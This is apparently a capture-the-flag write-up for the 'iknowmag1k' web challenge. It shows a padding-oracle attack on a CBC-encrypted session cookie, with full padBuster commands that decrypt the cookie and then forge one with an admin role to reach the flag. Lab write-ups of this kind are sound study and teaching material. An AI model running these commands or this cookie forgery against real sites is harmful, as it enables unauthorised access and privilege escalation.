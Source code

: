 # iknowmag1k

## Register and authenticate
Register using the form, log in with the credentials used.

After authentication the server generates iknowmag1k value, so cookies end up looking like this:
```
Cookie:
PHPSESSID=bqha27mii******************;
iknowmag1k=DsxnEMX0OZ4NZ13RAEkzjgxVIGdB8Y6i%2BpibchwP8GjWkSjs97upxQ%3D%3D
```

This cookie is url-encoded base64 string, however it does not convert to ASCII, therefore must be encoded/encrypted
```
DsxnEMX0OZ4NZ13RAEkzjgxVIGdB8Y6i+pibchwP8GjWkSjs97upxQ==
```
## Doing some mag1k
Changing this value leads to a couple of possible outcomes:
- code 200 -'valid' encoding
- code 500 - 'invalid' encoding

The string is likely encrypted with CBC and susceptible to padding oracle attack because of the ability to toss a ciphertext to the server (oracle) and get a response (200/500) whether this ciphertext (padding) is valid.

### Running [padbuster](https://github.com/GDSSecurity/PadBuster):
```
perl padBuster.pl http://*ip*:*port*/profile.php DsxnEMX0OZ4NZ13RAEkzjgxVIGdB8Y6i%2BpibchwP8GjWkSjs97upxQ%3D%3D 8 --cookies "PHPSESSID=bqha27mi************; iknowmag1k=DsxnEMX0OZ4NZ13RAEkzjgxVIGdB8Y6i%2BpibchwP8GjWkSjs97upxQ%3D%3D" --encoding 0 --verbose

```

Result:	(HEX)  : 7B2275736572223A22757365726E616D65222C22726F6C65223A2275736572227D0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F
	(ASCII): {"user":"username","role":"user"}

Simply changing the role to ‘admin’ should do the trick. Getting an encrypted value:
```
perl padBuster.pl http://*ip*:*port*/profile.php DsxnEMX0OZ4NZ13RAEkzjgxVIGdB8Y6i%2BpibchwP8GjWkSjs97upxQ%3D%3D 8 --cookies "PHPSESSID=bqha27mi***********; iknowmag1k=DsxnEMX0OZ4NZ13RAEkzjgxVIGdB8Y6i%2BpibchwP8GjWkSjs97upxQ%3D%3D" --encoding 0 --verbose -plaintext "{\"user\”:\”username\”,\”role\":\"admin\"}"
```
Replacing the original cookie with an encrypted value from padbuster gets admin’s page with a flag!
 :tada:  
